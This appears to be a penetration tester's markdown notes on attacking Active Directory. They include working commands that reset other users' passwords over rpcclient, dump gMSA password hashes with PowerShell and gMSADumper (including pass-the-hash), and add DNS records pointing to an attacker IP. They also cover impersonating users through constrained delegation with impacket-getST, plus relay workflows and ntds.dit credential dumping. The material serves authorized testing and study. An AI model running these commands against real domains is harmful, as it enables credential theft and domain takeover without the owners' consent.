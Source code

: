 # active directory 

## exploiting permissions

### WriteDacl
- give owned user access to GenericAll permissions over group or account
- change the password

### GenericAll
- change password

## NTLMv2 vs kerberos authentication on the network
NTLMv2 authentication is still often enabled on company LAN.
it is very rare for it to be completely disabled across the domain.
most domains will prefer kerberos, but will allow NTLMv2 as a backup.

## ForceChangePassword change user password
can exploit with impacket
payloadsallthethings "Active Directory Attack.md"
```bash
rpcclient $IP -U username -W domain.local
```
within rpcclient shell
```
setuserinfo2 targetuser 23 targetnewpwd
```

## Backup Operators group
permissions to back up files. can back up C drive to dump ntds.dit

## sensitive files
ntds.dit - domain credentials

## mindset and methodology
cycle:
- compromise creds
- access services
- abuse permissions to get more permissions

## workflow for penetration test on windows network in organization
- responder
- mitm6
  - combine with responder to attack ipv6 dns requests traffic
  - combine with ntlmrelayx

## GMSA group managed service account
windows AD account with randomized, changing password to prevent kerberoasting service accounts

### read NTLM hash with powershell + python
```powershell
$gmsa = Get-ADServiceAccount -Identity GMSAccount -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
echo $mp
```
```bash
# managed_password is the output of `echo $mp`
cat managed_password | awk '{ printf("%.2x", $1) }' > managed_password.hex
~/kb/hacking/windows/convert-msds-managed-password-to-ntlm-hash.py
```

### remote LDAP read GMSA passwords python script
https://github.com/micahvandeusen/gMSADumper
```bash
python3 gMSADumper.py -u user -p password -d domain.local

# Pass the Hash, specific LDAP server:
python gMSADumper.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local

# Kerberos Authentication, specific LDAP server:
python gMSADumper.py -k -d domain.local -l dc01.domain.local
```

#### fix missing ConvertFrom-AdManagedPasswordBlob
ConvertFrom-AdManagedPasswordBlob is not recognized as the name of a cmdlet, function...

## change user password with rpcclient over SMB 
```bash
rpcclient -U helpdesk //$IP
rpcclient $> setuserinfo2 adminuser 23 'ASDqwe123'
```

## DNS
active directory DNS is dynamic DNS.
any domain user can add a DNS record.

### adding DNS records
https://github.com/dirkjanm/krbrelayx
dnstool.py
```bash
python3 dnstool.py -u 'domain.local\username' -p password123 -a add -r subdomain.domain.local -d $ATTACKER_IP $IP
```

## delegation
delegation in kerberos is how a user can perform actions on behalf of another user.
extension to kerberos.
can be found with bloodhound or with `impacket-findDelegation`.

### unconstrained

### constrained
can authenticate to any service on the network.
use `impacket-getST` to get service ticket.
get SPN from the last column of `impacket-findDelegation` "DelegationRightsTo".
```bash
impacket-getST -spn SERVICE/HOSTNAME_YOU_HAVE_DELEGATION_RIGHTS_TO.FQDN -impersonate TARGET_USER DOMAIN/USERNAME:PASSWORD
```
